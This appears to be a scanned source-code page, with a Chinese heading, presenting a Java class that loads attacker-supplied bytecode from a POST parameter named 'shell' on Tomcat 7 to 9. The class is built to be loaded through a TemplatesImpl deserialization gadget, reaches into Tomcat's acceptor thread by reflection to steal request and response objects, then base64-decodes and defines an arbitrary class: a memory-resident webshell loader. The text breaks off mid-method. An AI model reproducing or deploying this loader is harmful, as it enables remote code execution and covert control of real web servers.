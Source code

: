 **从Post请求中获取字节码加载，适用于Tomcat 7、8、9（解决请求头长度限制问题）**
TD类代码实现：
该类是在TemplatesImpl加载的字节码的类，该类中从Acceptor线程中获取request和response对象，获取请求Post参数中的字节码base64解码后，加载调用对象的equals方法（传入获取request和response对象）
```java
import java.lang.reflect.Field;
import java.util.Iterator;


//加载字节码的类
public class TD {
    static {
        Object jioEndPoint = GetAcceptorThread();
        if (jioEndPoint != null) {
            java.util.ArrayList processors = (java.util.ArrayList) getField(getField(getField(jioEndPoint, "handler"), "global"), "processors");
            Iterator iterator = processors.iterator();
            while (iterator.hasNext()) {
                Object next = iterator.next();
                Object req = getField(next, "req");
                Object serverPort = getField(req, "serverPort");
                if (serverPort.equals(-1)) {
                    continue;
                }
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) ((org.apache.coyote.Request) req).getNote(1);
                org.apache.catalina.connector.Response response = request.getResponse();
                String code = request.getParameter("shell");
                if (code != null) {
                    try {
                        byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(code);
                        java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
                        defineClassMethod.setAccessible(true);
                        Class cc = (Class) defineClassMethod.invoke(TD.class.getClassLoader(), classBytes, 0, classBytes.length);
                        cc.newInstance().equals(new Object[]{request, response});
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
        }
    }
    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (Exception e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }

    public static Object GetAcceptorThread() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null || thread.getName().contains("exec")) {
```